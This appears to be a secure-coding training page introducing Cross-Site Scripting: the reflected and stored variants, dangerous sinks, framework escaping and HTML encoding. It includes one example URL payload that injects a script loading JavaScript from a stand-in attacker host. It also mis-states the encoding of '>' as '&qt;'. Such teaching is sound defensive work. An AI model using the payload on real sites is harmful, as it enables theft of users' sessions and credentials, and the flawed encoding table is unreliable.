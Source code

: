 JavaScript’s biggest foe is Cross-Site Scripting (abbreviated XSS). This type of attack occurs when a web page accepts input containing JavaScript from an untrusted source and renders it in the context of the page. It’s practically a form of code injection.

The target is the user identity. The server relies on authentication tokens and credentials to identify the user. The malicious script will extract this information from the browser and send it to a site the attacker controls (hence the name Cross-Site Scripting). The script makes it into the page via a specially crafted URL sent to the user (reflected XSS ) or by saving it into the site as an article or message (stored XSS).

Example URL with XSS payload:
    
    https://site.com/search.jsp?q='"/><script src="https://evil.bad/xss.js"></script>

#####Code Defenses Against Cross-Site Scripting

To prevent the attack the application must **neutralize the user input**. This means that the input will be inserted in the page witthout being rendered or executed. Most modern JavaScript frameworks such as **Angular** or **React** do this implicitly.

    <a class="nav-link"><span class="oi oi-account-logout"> Logout {{fullName}} </a>

However, sometimes you must extend the JavaScript framework by designing your own UI elements. When doing this you must keep in mind that the following page contexts are dangerous since they will execute input as JavaScript.

Dangerous HTML element attributes:

- innerHTML
- src
- onLoad, onClick, etc…

Dangerous functions:

- eval
- setTimeout
- setInterval

In the case of legacy web applications server side rendered code (JSP, PHP, ASPX) co-exists with modern pages and maintenance of the server side code may introduce new Cross-Site Scripting issues, if user input is not neutralized. In those cases HTML Encoding functions have to be called to turn hazardous HTML markup into safe strings.

`<` becomes `&lt;`

`>` becomes `&qt;`

`"` becomes `&quot;`

In this challenge you will take a look at a few samples to understand how to spot Cross-Site Scripting during code review. Select the code that prevents the vulnerability.

